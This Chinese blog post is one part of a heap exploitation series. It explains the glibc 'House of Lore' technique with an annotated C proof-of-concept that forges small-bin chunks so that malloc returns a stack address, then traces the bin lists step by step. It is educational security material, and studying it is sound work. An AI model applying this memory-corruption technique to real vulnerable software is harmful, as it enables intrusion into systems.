 ```yaml
---
title: "heap利用 7/9: House of Lore"
date: 2023-02-05T15:36:08+08:00           

tags : [                                    
"heap利用",
]
categories : [                              
"heap利用",
]
keywords : [                                
"heap利用",
]
---
```



这种攻击基本上是针对small bins和large bins伪造chunk。然而，由于在2007年左右增强了对large bins的保护(引入了`fd_nextsize`和`bk_nextsize`)，这种攻击几乎没有什么效果了。所以在这里我们只说明了对small bins的攻击。首先，将一个小的chunk放在small bin中，覆盖它的`bk`指针以指向一个小的fake chunk。需要注意的是，对于small bin链表，chunk在链表头部进行插入，从尾部开始取出。先通过一个`malloc`调用将一个真实的chunk从bin链表中删除，使得攻击者构造的fake chunk进入链表的尾部，从而实现下一个`malloc`调用会返回fake chunk的目的。


考虑下面的示例代码[[完整代码](https://github.com/DhavalKapil/heap-exploitation/blob/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/house_of_lore.c)]:
```c
struct small_chunk {
  size_t prev_size;
  size_t size;
  struct small_chunk *fd;
  struct small_chunk *bk;
  char buf[0x64];               // chunk falls in smallbin size range
};

struct small_chunk fake_chunk;                  // At address 0x7ffdeb37d050
struct small_chunk another_fake_chunk;
struct small_chunk *real_chunk;
unsigned long long *ptr, *victim;
int len;

len = sizeof(struct small_chunk);

// Grab two small chunk and free the first one
// This chunk will go into unsorted bin
ptr = malloc(len);                              // points to address 0x1a44010

// The second malloc can be of random size. We just want that
// the first chunk does not merge with the top chunk on freeing
malloc(len);                                    // points to address 0x1a440a0

// This chunk will end up in unsorted bin
free(ptr);

real_chunk = (struct small_chunk *)(ptr - 2);   // points to address 0x1a44000

// Grab another chunk with greater size so as to prevent getting back
// the same one. Also, the previous chunk will now go from unsorted to
// small bin
malloc(len + 0x10);                             // points to address 0x1a44130

// Make the real small chunk's bk pointer point to &fake_chunk
// This will insert the fake chunk in the smallbin
real_chunk->bk = &fake_chunk;
// and fake_chunk's fd point to the small chunk
// This will ensure that 'victim->bk->fd == victim' for the real chunk
fake_chunk.fd = real_chunk;

// We also need this 'victim->bk->fd == victim' test to pass for fake chunk
fake_chunk.bk = &another_fake_chunk;
another_fake_chunk.fd = &fake_chunk;

// Remove the real chunk by a standard call to malloc
malloc(len);                                    // points at address 0x1a44010

// Next malloc for that size will return the fake chunk
victim = malloc(len);                           // points at address 0x7ffdeb37d060
```

因为对小chunk的处理比较复杂，所以伪造小chunk需要更多的步骤。需要特别注意的是，为了绕过使用`malloc`返回小chunk的安全检查"malloc () : smallbin double linked list corrupted"，必须确保`victim->bk->fd`等于`victim`。此外，在两者之间添加了额外的"malloc"调用，以确保:
1. 第一个chunk进入unsorted bin，而不是在free时与top chunk合并。
2. 第一个chunk之后会由unsorted bin进入small bin链表，因为它不满足大小为`len + 0x10`的malloc请求。
  
相应unsorted bin和samll bin的链表状态变化如下所示。
1. free(ptr)操作后，ptr进入unsorted bin链表中。
>unsorted bin链表：head<->ptr<->tail

>small bin链表：head<->tail
2. malloc(len+0x10)操作后，ptr进入small bin链表中。
>unsorted bin链表：head<->tail

>head<->ptr<->tail
3. 修改指针操作后，fake_chunk插入small bin链表中。
>unsorted bin链表：head<->tail

>small bin链表：undefined<->fake_chunk<->ptr<->tail
4. malloc(len)后，ptr从small bin链表中取出。
>unsorted bin链表：head<->tail

>small bin链表：undefined<->fake_chunk<->tail
5. malloc(len)后，返回fake_chunk。
>unsorted bin链表：head<->tail

>small bin链表：undefined<->tail
 
注意：对相应的samll bin的另一个'malloc'调用将导致内存区段错误。